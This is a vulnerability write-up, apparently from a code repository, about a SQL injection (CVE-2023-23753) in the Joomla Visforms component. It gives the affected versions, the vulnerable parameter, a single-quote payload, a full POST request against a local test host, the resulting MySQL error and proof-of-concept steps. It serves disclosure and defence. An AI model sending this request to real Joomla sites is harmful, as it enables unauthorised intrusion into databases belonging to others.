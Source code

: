 # SQL Injection Vulnerability - Joomla Visforms Component (CVE-2023-23753)

## Vulnerability Summary
- **Component**: Joomla Visforms
- **Vulnerability Type**: SQL Injection
- **Parameter**: `addSupportedFieldType[]`
- **Date of discovery**: 23.03.2023
- **Severity**: Critical - 9.8

## Affected Installs
- com_visforms versions 3.8.0 - 3.14.10.
- Visforms Base Package 3.0.0 - 3.0.4 (Since version 3.14.6 com_visforms is part of the Visforms Base Package)

## Target Information
- **Endpoint**: `/index.php?task=visforms.send&id=1`
- **Application**: Joomla CMS with Visforms extension

## Vulnerability Details

### Affected Parameter
The vulnerability exists in the `addSupportedFieldType[]` parameter, which appears to be improperly sanitized before being used in a SQL query.

### Payload Used
```
addSupportedFieldType[]=pagebreak'
```

### Request Details
```http
POST /index.php?task=visforms.send&id=1 HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 178

form1name=test&form1vorname=test&postid=1&addSupportedFieldType%5B%5D=pagebreak'&return=aHR0cDovLzEyNy4wLjAuMTo4MDgxLw%2C%2C&86943d7016f8b77ef63479de53175204=1&form1senden=Senden
```

### SQL Error Response
The application returned a MySQL syntax error, confirming the SQL injection vulnerability:

```
Error: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''pagebreak''')
ORDER BY `ordering` asc' at line 3
```

## Technical Analysis

### Error Breakdown
- **Error Code**: 1064 (MySQL syntax error)
- **Injection Point**: The single quote `'` in the payload causes the SQL query to break
- **Query Fragment**: The error reveals part of the SQL structure with `ORDER BY \`ordering\` asc`
- **Response**: HTTP 500 Internal Server Error with detailed MySQL error message

## Proof of Concept Steps
1. Navigate to the Joomla site with Visforms component
2. Submit a form with the malicious payload in the `addSupportedFieldType[]` parameter
3. Observe the SQL error response confirming the injection

## URLs
- https://nvd.nist.gov/vuln/detail/CVE-2023-23753
- https://vi-solutions.de/en/announcements/867-security-announcement-cve-2023-23754
